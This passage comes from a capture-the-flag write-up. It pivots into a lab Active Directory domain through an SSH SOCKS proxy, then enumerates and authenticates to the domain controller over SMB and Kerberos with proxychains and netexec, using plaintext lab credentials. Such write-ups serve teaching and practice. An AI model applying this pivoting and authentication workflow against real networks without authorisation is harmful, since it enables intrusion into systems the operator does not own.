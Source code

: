 We also know that the domain controller is at `10.2.30.51`, which we can verify by pinging it, as domain controllers typically allow ICMP traffic. We can identify domain controllers by looking for the Kerberos service running on port `88` and the LDAP service on port `389`.

```
svc_jmp@jump:~$ ping -c 1 10.2.30.51
PING 10.2.30.51 (10.2.30.51) 56(84) bytes of data.
64 bytes from 10.2.30.51: icmp_seq=1 ttl=127 time=0.316 ms
```

### Setting Up SOCKS Proxy

To route our tools through the SSH tunnel, we can use the `-D` option with `ssh` to initiate a `SOCKS4` proxy on `127.0.0.1`, along with the `-N` flag to prevent an interactive shell from opening.

A detailed explanation of the pivot setup can be found at [https://playtrv.async.sg/im_new](https://playtrv.async.sg/im_new), a local copy of the page is also available in this repository: [here](https://github.com/ASYNC-Security/RangeVillage-Conference-CTF-Writeups/blob/main/Off-By-One-2025/im_new.md)

```
sshpass -p '8iP0TbO5mQmS' ssh svc_jmp@172.16.10.10 -D 1081 -N 
```

### DNS Enumeration

We can perform reconnaissance on the Domain Controller by routing our traffic through the `SOCKS4` proxy using `proxychains` in combination with netexec

```
proxychains nxc smb 10.2.30.51 
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain  ...  127.0.0.1:1081  ...  10.2.30.51:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1081  ...  10.2.30.51:135  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1081  ...  10.2.30.51:445  ...  OK
SMB         10.2.30.51      445    KING-DC          [*] Windows Server 2022 Build 20348 x64 (name:KING-DC) (domain:async.empire) (signing:True) (SMBv1:False) 
```

Add the following entries to our `/etc/hosts`:

```
10.2.30.51  King-DC.async.empire async.empire
```

We can also try authenticating to the Domain Controller using both SMB and Kerberos protocols.

```
proxychains -q nxc smb King-DC.async.empire -u 'Towns_Merchant_7' -p 'Hq7L2wPzX9'
SMB         10.2.30.51      445    KING-DC          [*] Windows Server 2022 Build 20348 x64 (name:KING-DC) (domain:async.empire) (signing:True) (SMBv1:False)
SMB         10.2.30.51      445    KING-DC          [+] async.empire\Towns_Merchant_7:Hq7L2wPzX9 

proxychains -q nxc smb King-DC.async.empire -u 'Towns_Merchant_7' -p 'Hq7L2wPzX9' --kerberos
SMB         King-DC.async.empire 445    KING-DC          [*] Windows Server 2022 Build 20348 x64 (name:KING-DC) (domain:async.empire) (signing:True) (SMBv1:False)
SMB         King-DC.async.empire 445    KING-DC          [+] async.empire\Towns_Merchant_7:Hq7L2wPzX9 
```

